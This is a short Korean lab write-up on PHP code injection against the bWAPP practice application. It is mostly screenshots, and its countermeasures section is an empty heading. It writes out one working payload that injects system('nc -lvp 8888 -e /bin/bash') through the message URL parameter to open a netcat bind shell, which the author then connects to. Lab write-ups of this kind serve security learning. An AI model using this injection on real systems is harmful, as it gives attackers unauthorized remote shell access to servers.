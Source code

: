 ```yaml
---
title: "[bWAPP] 1. Injection - PHP Code Injection"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## PHP Code Injection

![image-20220316023117510](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023117510.png)

- message 누르면

![image-20220316023148120](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023148120.png)

- URL에 변수 확인

<br>

### 삽입

![image-20220316023250426](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023250426.png)

<br>

### System 명령어 사용

![image-20220316023524961](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023524961.png)

`message=test;system('nc -lvp 8888 -e /bin/bash')`

- 포트 열어줌

<br>

![image-20220316023643171](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023643171.png)

- Bbox IP로 포트에 연결

<br>

<br>

## 대응방안

